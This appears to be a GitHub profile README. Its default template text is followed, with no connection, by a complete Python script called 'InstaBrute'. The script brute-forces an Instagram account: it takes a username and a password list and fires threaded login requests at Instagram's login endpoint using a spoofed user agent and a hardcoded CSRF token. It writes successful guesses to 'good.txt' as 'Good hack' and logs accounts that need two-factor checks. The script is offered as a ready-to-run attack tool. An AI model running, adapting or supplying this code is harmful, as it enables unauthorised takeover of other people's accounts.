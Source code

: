 - 👋 Hi, I’m @rdllc
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
rdllc/rdllc is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
from __future__ import absolute_import
from __future__ import print_function
import requests, sys, threading, time, os, random
from random import randint
from six.moves import input

CheckVersion = str (sys.version)
import re
from datetime import datetime

print ('''
                  \033[1;36m
  __  __             _            _
 |  \/  |           | |          (_)
 | \  / |_   _ _ __ | |_ __ _ _____ _ __
 | |\/| | | | | '_ \| __/ _` |_  / | '__|
 | |  | | |_| | | | | |_ (_| |/ /| | |
 |_|  |_|\__,_|_| |_|\__\__,_/___|_|_|
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
	  \|_|/  Author: MUNTAZIR
	  /. .\  Version: 1v
	 =\_Y_/= Telegram: @FN_OFO
	  {>o<}  Insta: 6j.9v
	\033[1;32m  _           _
	 (_)         | |
	  _ _ __  ___| |_ __ _
	 | | '_ \/ __| __/ _` |
	 | | | | \__ \ |_ (_| |
	 |_|_| |_|___/\__\__,_|
\033[1;36m
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
''')


class InstaBrute (object):
    def __init__(self):

        try:
            user = input (' USER [➪] : ')
            Combo = input ('pass List [➪] : ')
            print ('\n--{@FN_OFO}---')
			
        except:
            print (' The tool was arrested exit ')
            sys.exit ()

        with open (Combo, 'r') as x:
            Combolist = x.read ().splitlines ()
        thread = []
        self.Coutprox = 0
        for combo in Combolist:
            password = combo.split (':')[0]
            t = threading.Thread (target=self.New_Br, args=(user, password))
            t.start ()
            thread.append (t)
            time.sleep (0.9)
        for j in thread:
            j.join ()

    def cls(self):
        linux = 'clear'
        windows = 'cls'
        os.system ([linux, windows][os.name == 'nt'])

    def New_Br(self, user, pwd):
        link = 'https://www.instagram.com/accounts/login/'
        login_url = 'https://www.instagram.com/accounts/login/ajax/'

        time = int (datetime.now ().timestamp ())

        payload = {
            'username': user,
            'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{time}:{pwd}',
            'queryParams': {},
            'optIntoOneTap': 'false'
        }

        with requests.Session () as s:
            r = s.get (link)
            r = s.post (login_url, data=payload, headers={
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36",
                "X-Requested-With": "XMLHttpRequest",
                "Referer": "https://www.instagram.com/accounts/login/",
                "x-csrftoken": 'ZxKmz4hXp6XKmTPg9lzgYxXN4sFr2pzo'
            })
            print (f'{user}:{pwd}\n\033[1;32m----------------------------')


            if 'checkpoint_url' in r.text:
                print (('' + user + ':' + pwd + ' --> Good hack '))
                with open ('good.txt', 'a') as x:
                    x.write (user + ':' + pwd + '\n')
            elif 'two_factor_required' in r.text:
                print (('' + user + ':' + pwd + ' -->  Good It has to be checked '))
                with open ('results_NeedVerfiy.txt', 'a') as x:
                    x.write (user + ':' + pwd + '\n')


InstaBrute()
